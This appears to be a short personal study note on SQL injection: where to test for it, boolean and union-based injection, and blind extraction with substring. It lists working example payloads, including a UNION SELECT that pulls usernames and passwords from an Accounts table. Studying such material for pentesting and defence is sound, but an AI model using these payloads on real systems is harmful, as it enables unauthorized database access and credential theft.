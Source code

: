 
### General Notes

> Unauthorized user take control over SQL statements used by a web application.
> To explot SQL Injections, first find the injection point, and then craft a payload to take control over a query.
> Try TRUE and FALSE injections to check which one works.

> SQL queries inside web applications must connect to the database, submit the query, and then retrieve the results.

> Can use [[SQLMap]] to automate this test.

---

### Finding SQL Injections

> Test all user inputs.
> Test these areas: 
* GET parameters.
* POST parameters.  //Use [[Burp Suite]] proxy
* [[HTTP]] headers.

#### Types of Injections
> Boolean Injections.  Need a lot of requests to dump data.
> Union Based Injections.

---

### Payloads

> Try injecting: 
* String terminators: `'` and `"`.
* Other SQL commands: `SELECT`, `UNION`.
* SQL comments: ` -- `.

##### Example Payloads
> `' OR 'a'='a ` .
> `' UNION SELECT Username, Password FROM Accounts WHERE 'a'='a `.
> `' UNION SELECT user(); -- - `. // comment then space then `-` to remove remainder of the query.
> `2' AND 1=1; -- - `.
> `' UNION SELECT '', '', ''; -- - ` //keep adding inputs to identify the number of fields in the query.

---

### Extra Info

> Commands to identify first character of username.
```
select user(); // returns the current user
select substring(string,position,length); //substring from the position and takes length many chrs.
example: select substring(user(),1,1)='r'; // checks if first letter from user is r.
```

---
